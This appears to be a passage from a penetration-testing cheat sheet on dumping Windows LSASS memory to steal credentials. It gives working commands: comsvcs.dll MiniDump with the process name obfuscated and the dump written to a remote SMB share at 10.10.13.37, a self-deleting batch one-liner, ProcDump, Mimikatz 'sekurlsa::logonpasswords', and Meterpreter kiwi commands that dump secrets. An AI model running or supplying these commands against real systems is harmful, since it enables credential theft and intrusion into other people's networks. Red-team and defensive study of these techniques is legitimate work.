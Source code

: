 Not touching the disk (using an SMB share):

```
PS > net use z: \\10.10.13.37\share
PS > rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump (Get-Process ('ls'+'Ass')).id z:\pony.dat full
```

One-liner:

```
Cmd > %COMSPEC% /Q /c echo powershell.exe -NoP -C "%WINDIR%\System32\rundll32.exe %WINDIR%\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id %WINDIR%\Temp\pony.arj full;Wait-Process -Id (Get-Process rundll32).Id" 2^>^&1 > temp.bat & %COMSPEC% /Q /c temp.bat & del temp.bat
```



### ProcDump

- [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
- [https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)
- [https://live.sysinternals.com/](https://live.sysinternals.com/)

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
```



### Mimikatz

- [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)
- [https://tools.thehacker.recipes/mimikatz](https://tools.thehacker.recipes/mimikatz)

```
PS > .\mimikatz.exe "privilege::debug" "token::elevate" "log out.txt" "sekurlsa::logonpasswords full" "exit"
```

{% hint style="warning" %}
In case of Windows 10 version 1803-1809 use [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip), see [Key import error](https://github.com/gentilkiwi/mimikatz/issues/248)
{% endhint %}

Parse MiniDump:

```
PS > .\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full" "exit"
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_wdigest
meterpreter > lsa_dump_secrets
meterpreter > creds_all
meterpreter > kiwi_cmd '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "exit"'
```

